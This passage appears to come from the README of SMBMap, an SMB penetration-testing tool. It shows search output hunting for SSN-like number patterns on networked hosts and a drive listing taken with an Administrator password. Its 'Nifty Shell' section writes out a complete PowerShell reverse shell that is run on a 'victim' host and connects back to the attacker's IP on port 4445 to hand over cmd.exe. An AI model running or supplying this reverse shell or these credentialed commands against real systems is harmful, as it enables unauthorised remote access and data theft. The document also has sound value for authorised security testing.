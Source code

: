 ```
[+] All jobs complete
Host: 192.168.0.85         Pattern: [1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]
No matching patterns found

Host: 192.168.0.89         Pattern: [1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]
C:\Users\terdf\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\JY5MGKVO\salesmaps[1].htm
C:\Users\terdf\OldFiles\Cache_2013522\Content.IE5\JY5MGKVO\salesmaps[1].htm

Host: 192.168.0.99         Pattern: [1-9][0-9][0-9]-[0-9][0-9]-[0-9][0-9][0-9][0-9]
C:\Users\biffh\AppData\Local\Microsoft\Internet Explorer\DOMStore\L7W17OPZ\static.olark[1].xml
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\MIY2POGJ\validation[2].js
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\NV1MNBWA\Docs[1].htm
C:\Users\biffh\AppData\Local\Temp\Temporary Internet Files\Content.IE5\NV1MNBWA\Salesmaps[1].htm
```

## Drive Listing:
This feature was added to complement the file content searching feature

```
$ python smbmap.py -H 192.168.1.24 -u Administrator -p 'R33nisP!nckle' -L
[!] Missing domain...defaulting to WORKGROUP
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.1.24:445 Name: unknown
[+] Host 192.168.1.24 Local Drives: C:\ D:\
[+] Host 192.168.1.24 Net Drive(s):
    E:      \\vboxsrv\Public      VirtualBox Shared Folders
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -H 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
[+] Finding open SMB ports....
[+] User SMB session established...
[+] IP: 192.168.2.50:445        Name: unkown
[!] Error encountered, sharing violation, unable to retrieve output
```

